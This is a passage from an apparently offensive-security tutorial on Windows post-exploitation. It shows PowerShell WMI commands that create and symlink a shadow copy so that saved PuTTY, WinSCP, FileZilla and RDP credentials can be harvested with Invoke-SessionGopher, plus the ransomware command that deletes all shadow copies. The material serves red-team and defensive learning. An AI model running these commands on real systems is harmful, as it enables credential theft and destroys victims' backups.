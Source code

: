 Local groups start with the hostname followed by a backslash and the username, where the domain-joined systems will also show you the current domain groups, the trusted domain groups and the trusted forest groups.

### Shadow Copies
When you have sufficient permissions on a system as attacker you can create a shadow copy and try to extract the secrets from these shadow copies. The shadow copy is a Windows technology that allows you to make snapshots from computer files and volumes even when they are in use.

To interact with shadow copies you have 2 methods

```
Get-WmiObject -Class win32_shadowcopy | list -ExpandProperty methods
```

To create a shadow copy the attacker runs the following code to specify a volume and a context for the copy creation:

```
(Get-WmiObject -Class win32_shadowcopy -List).create("C:\", "ClientAccessible")
```

Next, to facilitate easy access from the local explorer, the attacker can create a symlink:

```
$link = (Get-WmiObject -Class win32_shadowcopy).deviceobject + "/"
cmd /c mklink C:\shadowcopy "$link"
```

Once the shadow copu is ready to use a tool like Invoke-SessionGopher.ps1 (https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SessionGopher.ps1) can be used to yield information from:
* PuTTY
* WinSCP
* FileZilla
* SuperPuTTY
* RDP
* ...

Ransomware actors often abuse wmic like to delete shadowcopies like this:

```
wmic.exe shadowcopy delete /nointeractive
```
